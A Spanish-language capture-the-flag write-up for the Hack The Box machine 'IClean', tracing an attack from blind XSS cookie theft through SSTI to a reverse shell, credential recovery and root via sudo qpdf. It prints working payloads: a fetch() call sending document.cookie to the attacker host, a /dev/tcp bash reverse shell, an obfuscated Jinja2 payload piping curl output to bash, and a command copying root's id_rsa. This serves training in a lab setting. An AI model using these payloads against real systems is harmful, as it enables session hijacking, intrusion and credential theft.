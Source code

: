 ```yaml
---
layout: single
title: IClean - Hack The Box
excerpt: "Para resolver esta máquina, interceptamos la solicitud de inicio de sesión, logrando llevar a cabo un XSS para robar una cookie de sesión válida. Con esta cookie, ingresamos al dashboard, que contiene un sistema de facturación que genera un código QR y un enlace. Al utilizar el enlace, se crea un escaneable, cuya solicitud interceptamos para poder inyectar SSTI. Posteriormente, logramos establecer una Reverse Shell. En el código fuente de la web, descubrimos en texto claro el usuario y la contraseña de la base de datos, encontrando así las credenciales de un usuario válido que desencriptamos. Finalmente, abusamos de los permisos SUDOERS del binario "qpdf" para convertirnos en ROOT."
date: 2024-6-5
classes: wide
header:
  teaser: /assets/images/htb-writeup-iclean/iclean_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - CVE-2021-31630


---
```


![](/assets/images/htb-writeup-iclean/iclean_logo.png)
# PortScan

```java
# Nmap 7.94SVN scan initiated Tue Jun  4 16:55:14 2024 as: nmap -sCV -p22,80 -oN targeted 10.10.11.12
Nmap scan report for 10.10.11.12
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  4 16:55:24 2024 -- 1 IP address (1 host up) scanned in 10.29 seconds
```

# Sitio Web

![](/assets/images/htb-writeup-iclean/Pasted image 20240605163238.png)

Vemos un **nav** con su respectivo **Login**, intenté ingresar con credenciales por defecto, incluso llevar a cabo un **STTI** blind ya qué por detrás está corriendo un **python**, entre otras técnicas para poder bypassear o ejecutar código a través del Login con **Burpsuite**, pero no logré nada, seguí indagando en la página principal.

![](/assets/images/htb-writeup-iclean/Pasted image 20240605163407.png)

Vemos que tenemos en la página un apartado para solicitar un presupuesto para la limpieza.

![](/assets/images/htb-writeup-iclean/Pasted image 20240605163446.png)

Intercepto esta solicitud con **Burpsuite** para llevar a cabo intentos de posibles vulnerabilidades.. de primero se me ocurre **STTI**, intenté varias maneras pero no logré nada, seguí intentando...


Finalmente, pude llevar a cabo un **XXS** tras varios intentos fallidos, ya que la **DATA** tramitada para las variables debe ser **URLencodeada**, y la respuesta del servidor no muestra nada para guiarnos, así que fue a ciegas mediante un servidor en local con Python, para ver sí lográbamos llevar a cabo la **XXS**.

1. Nos montamos servidor en local con python.
```bash
python3 -m http.server 80
```

2. Payload utilizado en la solicitud para la variable "**service**".
```bash
<script+src%3d"http%3a//10.10.14.x/test"></script>
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605164714.png)

![](/assets/images/htb-writeup-iclean/Pasted image 20240605164722.png)

viendo qué estamos pudiendo llevar a cabo un **XSS**, se me ocurre tratar de robar la cookie de sesión, es decir un **cookie hijacking**, para poder loguearnos en el **Login** que vimos al principios, así que sustituyo el payload por éste:
```bash
<img+src%3dx+onerror%3dfetch('http%3a//10.10.14.3/'%2bdocument.cookie)%3b>
```

obteniendo así lo que sería una cookie de sesión:
![](/assets/images/htb-writeup-iclean/Pasted image 20240605165222.png)

con el nombre de su variable, así que procedo a remplazar esto en mi navegador, en mi caso uso **Firefox**, es tan fácil como ir a la WEB, hacer **CTRL + SHIFT + C**, luego ir a **Storage** > **Cookies** > **+**, y cambiamos los valores tal que así:

![](/assets/images/htb-writeup-iclean/Pasted image 20240605165539.png)

o también podríamos usar la extensión de navegadores **"cookie-editor"**.

Lamentablemente, al ir a **Login**, recargando no logro nada, pero hago un **fuzzing** rápido a directorios, ya que a lo mejor con la cookie no me redirige directamente, usaré la herramienta "**GoBuster**" para esto.
```bash
❯ gobuster dir -u http://capiclean.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
===============================================================

/about                (Status: 200) [Size: 5267]
/login                (Status: 200) [Size: 2106]
/services             (Status: 200) [Size: 8592]
/team                 (Status: 200) [Size: 8109]
/quote                (Status: 200) [Size: 2237]
/logout               (Status: 302) [Size: 189] [--> /]
/dashboard            (Status: 302) [Size: 189] [--> /]
```

descubriendo un directorio "**/dashboard**", así que con la cookie seteada procedo a ir a éste directorio...
![](/assets/images/htb-writeup-iclean/Pasted image 20240605170417.png)

vemos qué estamos ante un **Sistema de factura,** el cual podemos escanear **códigos QR's**, editar servicios, entre otras cosas... me pongo a investigar & probar cosas..

empiezo generando una factura..

![](/assets/images/htb-writeup-iclean/Pasted image 20240605171335.png)

eso me genera un **ID**, intuyo que este ID lo necesitaremos para algo, sigo indaganado..
![](/assets/images/htb-writeup-iclean/Pasted image 20240605171416.png)

el **ID** aparentemente es para generar un **QR**, así que lo pongo acá.
![](/assets/images/htb-writeup-iclean/Pasted image 20240605171538.png)

veo que ahora podemos generar un Escaneable con el link del QR, lo pongo...

![](/assets/images/htb-writeup-iclean/Pasted image 20240605171702.png)

generándose esto, me da por curiosear aquí ya que veo números para tratar de llevar a cabo un **STTI**, lo intercepto con **BurpSuite**.

![](/assets/images/htb-writeup-iclean/Pasted image 20240605171802.png)

en esa **DATA** pruebo en la variable del **QR** inyectar una operación básica **SSTI**..
![](/assets/images/htb-writeup-iclean/Pasted image 20240605172955.png)
![](/assets/images/htb-writeup-iclean/Pasted image 20240605173011.png)

y estamos llevando a cabo un **STTI** exitosamente, pero lo está convirtiendo en **base64**, ya sabiendo esto podría entablarme una **Reverse Shell** de la siguiente manera:

1. Nos creamos un archivo con nombre "**revshell**", con esto dentro:
```bash
#!/bin/bash
bash -c 'bash -i >&/dev/tcp/10.10.14.x/PORT 0>&1'
```

2. En el mismo directorio del "**revshell**" nos montamos un servidor Python.
```python
python3 -m http.server 80
```

3. Abrimos un puerto en escucha para recibir la **Reverse Shell:**
```bash
nc -nlvp PORT
```

5. Usamos este payload en la solicitud:

```python
 {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl IP:PORT/revshell | bash")|attr("read")()}}
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605173635.png)

logrando acceso a la máquina, sólo quedaría darle [Tratamiento a la TTY](https://4uli.github.io/tratamiento-tty/#).


# Escalada de Privilegios #1 

como **www-data**, miro el directorio Home para ver posibles usuarios, descubriendo así a "**consuela**", indago en el directorio del la app, viendo el **"app.py"** detalladamente descubro esto:
![](/assets/images/htb-writeup-iclean/Pasted image 20240605174045.png)

descubriendo las credenciales de la **DB** en texto claro, así qué procedo a buscar que puertos que estén en uso que coincidan con lo que usan las DB's por defecto con:
```bash
ss -tulnp
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605174153.png)
viendo que está abierto el **:3306** que suele ser **MySQL**, así que intento conectarme a **MySQL** en local con estas créndeciales.
```bash
mysql -u iclean -p
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605174435.png)

logrando conectarnos a la base de datos, así que ahora veré las tablas & sus contenidos a ver que encuentro...
![](/assets/images/htb-writeup-iclean/Pasted image 20240605174526.png)

encontrándome esto en la tabla **"users"** de la db "**capiclean**", las contraseñas pero hasheadas, pruebo en [hashes.com](https://hashes.com/en/decrypt/hash) a ver sí es posible desencriptarla, empecé por la de admin pero no funcionó, así que pruebo con el hash de consuela..
![](/assets/images/htb-writeup-iclean/Pasted image 20240605174919.png)

logrando desencriptar la contraseña, ahora pruebo estas credenciales para convertirme en "**consuela**", logrando acceso.

# Escalada de Privilegios #2

Como "**consuela**" listo por **SUDOERS**, viendo ésto:
![](/assets/images/htb-writeup-iclean/Pasted image 20240605175042.png)

qué podemos ejecutar el aparente binario "**qpdf**" como quién queramos, así que es una potencial manera de escalar a **ROOT**, no tengo idea qué es **qpdf** así que hago una investigación en Internet, encontrándome con su [DOCUMENTACIÓN.](https://qpdf.readthedocs.io/en/stable/cli.html#basic-invocation)

y usando ésta linea:
```bash
sudo /usr/bin/qpdf --empty /tmp/pwned.txt --qdf --add-attachment /root/.ssh/id_rsa --
```

crearemos un archivo en el "**tmp**" con la copia de la **id_rsa** de **ROOT**.
![](/assets/images/htb-writeup-iclean/Pasted image 20240605180556.png)

nos copiamos esta clave en nuestra máquina, dándole permisos "**600**" y podremos conectarnos.
![](/assets/images/htb-writeup-iclean/Pasted image 20240605180657.png)
